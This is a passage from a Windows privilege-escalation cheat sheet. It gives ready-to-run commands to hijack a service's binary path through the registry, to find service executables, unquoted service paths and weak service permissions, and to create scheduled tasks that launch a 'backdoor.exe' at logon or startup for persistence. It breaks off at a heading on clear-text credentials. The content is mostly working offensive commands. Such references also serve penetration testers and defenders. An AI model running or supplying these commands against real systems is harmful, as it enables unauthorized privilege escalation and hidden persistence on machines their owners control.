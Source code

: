 To change the Path of the binary executed:

```text
reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

### find all service executables

```text
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\services.txt
```

if wmic is not available :

```text
sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

### search for unquoted service paths

```text
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

### check for weak service permissions

```text
accesschk.exe -accepteula -wuvc "Everyone" *
accesschk.exe -accepteula -wuvc "Users" *
accesschk.exe -accepteula -wuvc "Authenticated Users" *
```

## Scheduled Tasks

### list scheduled tasks

```text
schtasks /query /fo LIST /v
schtasks
```

### add startup scheduled tasks \(useful for persistence\)

```text
schtasks /create /tn "MyCustomTask" /sc onlogon /tr "C:\users\Administrator\Desktop\backdoor.exe"

schtasks /create /tn "MyCustomTask" /sc onstart /tr "C:\users\Administrator\Desktop\backdoor.exe"
```



## Clear Text Credentials
